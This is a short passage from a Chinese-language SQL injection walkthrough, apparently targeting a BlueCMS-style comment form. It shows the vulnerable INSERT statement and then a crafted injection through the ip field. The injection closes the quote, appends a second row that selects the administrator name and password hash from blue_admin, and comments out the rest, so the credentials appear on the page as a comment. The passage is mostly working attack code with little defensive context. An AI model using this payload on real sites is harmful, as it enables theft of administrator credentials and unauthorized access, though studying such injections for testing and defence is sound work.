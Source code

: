 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675321191041-bc996b6c-fc22-4803-92c5-ef567ab2096c.png)
分析报错的原始sql语句，其中123是提交的评论内容

```sql
INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '4', '0', '1', '1', '123', '1675321172', '1.1.1.1'', '1')
```

我们可以闭合标签，追加一行内容,下面的内容中，第2行就是要加入的注入语句，这样就可以将我们想查询的内容以评论的方式留在网页上

```sql
INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '4', '0', '1', '1', '123', '1675321172', '
1.1.1.1', '1'),('', '4', '0', '1', '1', (select concat(admin_name,0x3a,pwd) from blue_admin limit 0,1), '1675321172', '1.1.1.1', '1')#
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675321737942-4c8b7f06-16ea-4686-8bcd-7bbf80e70044.png)